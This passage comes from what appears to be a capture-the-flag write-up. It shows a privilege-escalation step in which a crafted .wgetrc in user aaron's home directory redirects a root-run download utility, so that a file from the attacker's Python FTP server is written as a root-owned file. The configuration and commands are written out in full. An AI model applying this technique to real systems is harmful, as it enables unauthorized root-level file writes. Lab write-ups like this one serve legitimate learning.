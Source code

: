 ### wgetrc

`wget` has a option `output_document` which allow us set default location for output file.
```conf
# Set the output filename—the same as ‘-O file’.
#
output_document = file
```

We can create `.wgetrc` in current user "aaron's" $HOME folder and then normally run that `/usr/bin/netutils` command with option 1 and download file from our ftp server.
```bash
cat <<EOF > .wgetrc
# Set the output filename—the same as ‘-O file’.
#
output_document = /home/aaron/wgetrcit
EOF
```

Start python ftp server
```bash
python3 -m pyftpdlib -p 21 -V
```

Set default output file `/home/aaron/wgetrcit` and after succssfully executing command we get `wgetrcit` file owned by root with our content.

![](/assets/img/posts/timing/wgetrc-privesc.png)

And if we run same command again it append new content in the same file instead of create new or overwrite existing one.

